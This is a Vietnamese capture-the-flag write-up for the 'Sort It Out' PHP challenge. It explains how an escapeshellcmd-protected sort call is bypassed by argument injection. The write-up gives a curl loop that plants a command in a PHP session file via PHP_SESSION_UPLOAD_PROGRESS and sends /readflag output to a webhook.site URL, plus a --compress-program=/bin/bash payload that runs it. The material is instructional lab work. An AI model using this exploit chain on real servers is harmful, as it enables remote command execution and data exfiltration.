



# Sort It Out


Đây là một chương trình trả về thời gian thực hiện của các thuật toán sắp xếp đối với 1 file có sẵn trên hệ thống



Challenge cho mình source code

```
.
└── dist
    ├── Dockerfile
    ├── docker-compose.yml
    ├── flag
    ├── readflag.c
    └── src
        ├── alice_in_wonderland.txt
        ├── index.php
        ├── quotes.txt
        └── words_shuffled.txt

2 directories, 8 files
```

Theo như Dockerfile thì `readflag.c` tạo ra một file thực thi `/readflag` để đọc flag, mục tiêu của mình là thực thi được file này

```dockerfile
FROM php:8.1-apache

RUN sed -i 's/80/8080/g' /etc/apache2/ports.conf /etc/apache2/sites-available/*.conf

RUN apt-get update && apt-get install -y gcc

COPY src/ /var/www/html/
COPY flag /flag
COPY readflag.c /readflag.c

RUN gcc -o /readflag /readflag.c
RUN rm /readflag.c

RUN chown root:root /flag
RUN chmod 400 /flag
RUN chown root:root /readflag
RUN chmod 4755 /readflag

RUN chown -R root:root /var/www/html
RUN chmod -R 555 /var/www/html
```

Trong file `index.php` có các hàm sắp xếp, sử dụng POST param `filename` là một đường dẫn đến file tồn tại trên hệ thống, sử dụng các hàm sắp xếp và trả về thời gian hoàn thành của các hàm này

```php
<!DOCTYPE html>
    // ...
    <?php 
        function bubbleSort($arr) {
    		// ...
		}
		function selectionSort($arr) {
        	// ...
        }
		function insertionSort($arr) {
            // ...
        }
		// ...
		// ...
		if (isset($_POST['filename'])) {
            $filename = $_POST['filename'];
            $contents = file_get_contents($filename);
            $arr = explode("\n", $contents);

            // god i wish there was an easier way to do this
            $arr_copy = $arr;
            $start = microtime(true);
            sort($arr_copy);
            $end = microtime(true);
            $sort_time = $end - $start;
            // ...
			// ...
			$arr_copy = $arr;
            $start = microtime(true);
            $arr_copy = heapSort($arr_copy);
            $end = microtime(true);
            $heap_sort_time = $end - $start;
            
            $start = microtime(true);
            exec("sort " . escapeshellcmd($filename));
            $end = microtime(true);
            $sort_utility_time = $end - $start;

            echo "<table>";
            echo "<tr><th>Algorithm</th><th>Time</th></tr>";
            echo "<tr><td>PHP sort</td><td>$sort_time</td></tr>";
            echo "<tr><td>Bubble sort</td><td>$bubble_sort_time</td></tr>";
            echo "<tr><td>Selection sort</td><td>$selection_sort_time</td></tr>";
            echo "<tr><td>Insertion sort</td><td>$insertion_sort_time</td></tr>";
            echo "<tr><td>Merge sort</td><td>$merge_sort_time</td></tr>";
            echo "<tr><td>Quick sort</td><td>$quick_sort_time</td></tr>";
            echo "<tr><td>Heap sort</td><td>$heap_sort_time</td></tr>";
            echo "<tr><td>GNU sort</td><td>$sort_utility_time</td></tr>";
            echo "</table>";
        }
	?>
```

Trong đó có một đoạn code sử dụng `exec` thực thi câu lệnh sort với `escapeshellcmd($filename)`. Trong PHP, khi mình sử dụng `escapeshellcmd(string)` thì chương trình sẽ thêm kí tự backslash `\` vào đằng trước các kí tự đặc biệt có thể gây ra lỗi command injection như `&#;|*?~<>^()[]{}$\, \x0A and \xFF. ' and "` [PHP: escapeshellcmd - Manual](https://www.php.net/manual/en/function.escapeshellcmd.php)

```php
            $start = microtime(true);
            exec("sort " . escapeshellcmd($filename));
            $end = microtime(true);
            $sort_utility_time = $end - $start;
```

Search thêm các cách bypass/exploit đối với trường hợp này thì mình tìm ra được cách đó là `Argument Injection`

[exploits/exploit-bypass-php-escapeshellarg-escapeshellcmd.md at master · kacperszurek/exploits · GitHub](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

Cách này mình sẽ chèn các đối số vào câu lệnh, như hình ảnh dưới đây lệnh tar đã được chèn vào một đối số `--use-compress-program='touch /tmp/exploit'`, khi thực thi câu lệnh này, chương trình sẽ thực thi câu lệnh trong này



Cũng tương tự với lệnh `sort`, lệnh sort có đối số `--compress-program` sử dụng để chỉ định một chương trình hợp lệ trên hệ thống để xử lý dữ liệu

Sử dụng [PHP_SESSION_UPLOAD_PROGRESS](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress), PHP_SESSION_UPLOAD_PROGRESS là một biến môi trường được sử dụng trong quá trình tải lên tệp tin bằng tính năng upload file của PHP.

UPLOAD PROGRESS 

```
while true; do curl http://localhost:10556/ -H 'Cookie: PHPSESSID=longkd719' --form-string 'PHP_SESSION_UPLOAD_PROGRESS=;curl https://webhook.site/06a35126-1c92-4c57-a0ce-cec9b4e08946?`/readflag`;#' -F 'file=@/dev/urandom'; done
```

Khi đó trong file `/tmp/sess_longkd719` trên hệ thống

```
# cat /tmp/sess_longkd719
upload_progress_;curl https://webhook.site/06a35126-1c92-4c57-a0ce-cec9b4e08946?`/readflag`;#|a:5:{s:10:"start_time";i:1685029415;s:14:"content_length";i:0;s:15:"bytes_processed";i:5311;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:4:"file";s:4:"name";s:7:"urandom";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1685029415;s:15:"bytes_processed";i:5311;}}}#
```

Sau đó sử dụng đối số `--compress-program` để thực thi file này

```
filename=--compress-program=/bin/bash -o /tmp/sess_longkd719 -m /tmp/sess_longkd719
```

Test trên local thành công

```
# sort --compress-program=/bin/bash -o /tmp/sess_longkd719 -m /tmp/sess_longkd719
/bin/bash: line 1: upload_progress_: command not found
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
/bin/bash: -d: invalid option
Usage:  /bin/bash [GNU long option] [option] ...
        /bin/bash [GNU long option] [option] script-file ...
```

Kết hợp cả 2 cái trên và mình thu được flag



`Flag: grey{It_w4s_No7_a_gO0D_DAy}`